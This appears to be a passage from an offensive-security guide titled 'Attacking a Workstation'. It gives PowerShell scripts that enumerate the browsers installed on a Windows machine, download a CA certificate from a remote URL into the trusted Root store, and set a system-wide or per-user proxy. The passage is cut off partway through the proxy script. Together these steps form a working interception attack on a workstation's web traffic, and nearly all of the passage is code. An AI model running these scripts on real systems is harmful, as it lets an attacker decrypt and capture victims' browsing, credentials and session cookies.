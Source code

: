 ## Attacking a Workstation

### Windows

#### 1. Analyze Which Browsers Are Installed on the System

This PowerShell script searches for the most common browsers in the Programs directories:

```powershell
# List of common browsers to search for in the Programs directories
$browsers = @("Google\Chrome", "Mozilla Firefox", "Internet Explorer", "Microsoft\Edge")
$paths = @("C:\Program Files", "C:\Program Files (x86)")

foreach ($path in $paths) {
    foreach ($browser in $browsers) {
        $fullPath = Join-Path -Path $path -ChildPath $browser
        if (Test-Path $fullPath) {
            Write-Output "Browser found: $browser in $fullPath"
        }
    }
}
```

#### 2. Download and Install a CA Certificate for the Proxy

To add a CA certificate to the trusted roots on Windows at the user level:

```powershell
# Download the CA certificate from GitHub
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/user/path/certificate.crt" -OutFile "C:\Users\Public\certificate.crt"

# Install the certificate in the Current User's Root store
$certPath = "C:\Users\Public\certificate.crt"
$certStore = New-Object System.Security.Cryptography.X509Certificates.X509Store -ArgumentList "Root", "CurrentUser"
$certStore.Open([System.Security.Cryptography.X509Certificates.OpenFlags]::ReadWrite)
$cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 -ArgumentList $certPath
$certStore.Add($cert)
$certStore.Close()
```

#### 3. Install a System-wide or Browser-specific Proxy

##### Internet Explorer, Chrome, and Other Browsers That Use the System Proxy

To set a system-wide proxy using PowerShell:

```powershell
# Set the system-wide proxy
$proxyServer = "http://127.0.0.1:8080" # Your proxy URL
$proxyEnable = 1 # 1 to enable proxy, 0 to disable

$hkroot = "HKLM"
# If the user is Administrator, then we can change the proxy at the system level
# Otherwise, we can change the proxy at the user level

if (-NOT (
    [Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()
    ).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) 
{
    $hkroot = "HKCU"
    Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings' -Name ProxySettingsPerUser -Value 0
```